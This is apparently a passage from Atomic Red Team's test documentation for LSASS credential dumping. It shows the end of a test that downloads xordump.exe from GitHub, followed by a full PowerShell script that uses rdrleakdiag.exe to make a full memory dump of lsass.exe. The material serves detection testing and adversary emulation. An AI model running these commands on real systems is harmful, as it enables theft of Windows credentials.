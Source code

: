 #### Cleanup Commands:
```powershell
Remove-Item #{output_file} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have xordump.exe
##### Check Prereq Commands:
```powershell
if (Test-Path '#{xordump_exe}') {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/audibleblink/xordump/releases/download/v0.0.1/xordump.exe" -OutFile #{xordump_exe}
```




<br/>
<br/>

## Atomic Test #13 - Dump LSASS.exe using lolbin rdrleakdiag.exe
The memory of lsass.exe is often dumped for offline credential theft attacks. 
This can be achieved with lolbin rdrleakdiag.exe. 

Upon successful execution, you should see the following files created, $env:TEMP\minidump_<PID>.dmp and  $env:TEMP\results_<PID>.hlk.

**Supported Platforms:** Windows


**auto_generated_guid:** 47a539d1-61b9-4364-bf49-a68bc2a95ef0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (Test-Path -Path "$env:SystemRoot\System32\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\System32\rdrleakdiag.exe"
  } elseif (Test-Path -Path "$env:SystemRoot\SysWOW64\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\SysWOW64\rdrleakdiag.exe"
  } else {
      $binary_path = "File not found"
      exit 1
  }
$lsass_pid = get-process lsass |select -expand id
if (-not (Test-Path -Path"$env:TEMP\t1003.001-13-rdrleakdiag")) {New-Item -ItemType Directory -Path $env:TEMP\t1003.001-13-rdrleakdiag -Force} 
write-host $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
& $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
Write-Host "Minidump file, minidump_$lsass_pid.dmp can be found inside $env:TEMP\t1003.001-13-rdrleakdiag directory."
```
